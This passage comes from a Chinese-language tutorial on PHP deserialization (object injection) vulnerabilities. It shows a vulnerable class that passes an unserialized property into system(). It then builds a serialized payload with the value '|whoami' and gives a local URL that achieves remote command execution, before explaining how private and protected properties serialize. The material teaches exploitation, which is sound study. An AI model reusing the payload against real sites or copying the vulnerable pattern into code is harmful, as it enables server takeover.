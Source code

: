 ```php
        system('ping -c 4'.$this->ip);
    }
}
$O = unserialize($_GET['daiker']);
```
 
我们分析这串代码，可以得出一下结论
 
 
* 反序列化的的字符串我们可控 
*  反序列化默认会调用`__wakeup()`  
* 变量ip是会保存在反序列化的字符串里面的，我们可控所以我们下面构造payload。 
 

```php
<?php
    *   @authors daiker (<a href="/cdn-cgi/l/email-protection" data-cfemail="d6b2b7bfbdb3a4a5b3b596b1bbb7bfbaf8b5b9bb">[email protected]</a>)
    *   @date 2017-12-22 16:45:11
    *   @version $Id$*/

class ClassName { var $ip = "|whoami";}

echo urlencode(serialize(new ClassName()));
```
 
然后`http://127.0.0.1/php-obj/example4.php?daiker=O%3A9%3A%22ClassName%22%3A1%3A%7Bs%3A2%3A%22ip%22%3Bs%3A7%3A%22%7Cwhoami%22%3B%7D` 就可以执行`whoami` ,所以这里就导致RCE所以总结来讲，PHP对象注入(又叫反序列化漏洞)，需要几点条件。 
 
 
* 反序列化字符串可控 
* 有魔术方法会调用对象属性 
 
 
对于反序列化的漏洞利用的效果取决于魔术方法里面对成员属性的调用方式，如上面的`system()` 就会导致RCE，也可能是注入，任意文件上传等问题。 
 
## 0×04 类变量的注意点
 
看下面一个例子

```php
<?php
/**
*   @authors daiker (<a href="/cdn-cgi/l/email-protection" data-cfemail="96f2f7fffdf3e4e5f3f5d6f1fbf7fffab8f5f9fb">[email protected]</a>)
*   @date 2017-12-22 19:08:38
*   @version $Id$*/class ClassName{

    private $a = 1; protected $b =2; 
    public $c =3;//
}echo serialize(new ClassName())."";echo urlencode(serialize(new ClassName()));
```
 
看输出结果
 
`O:9:"ClassName":3:{s:12:"ClassNamea";i:1;s:4:"*b";i:2;s:1:"c";i:3;}O%3A9%3A%22ClassName%22%3A3%3A%7Bs%3A12%3A%22%00ClassName%00a%22%3Bi%3A1%3Bs%3A4%3A%22%00%2A%00b%22%3Bi%3A2%3Bs%3A1%3A%22c%22%3Bi%3A3%3B%7D%` 一个个比较，我们会发现不可打印字符打印不出来。如果我们把可打印字符用作payload，会利用失败.如果是private 的变量，序列化的时候就会变成`\x00类名\x变量名` ，这里就是`\xClassName\x00a` ，urlencode之后变成`%00ClassName%00a` 。如果是protected的变量，序列化之后就会变成`\x00\x2A\x00变量名` 。 
 

[2]: http://php.net/manual/zh/function.serialize.php
[3]: http://php.net/manual/zh/function.unserialize.php
[4]: https://bugs.php.net/bug.php?id=72663
[0]: https://img1.tuicool.com/ZfqMf2b.png
[1]: https://img0.tuicool.com/BfQz2iz.png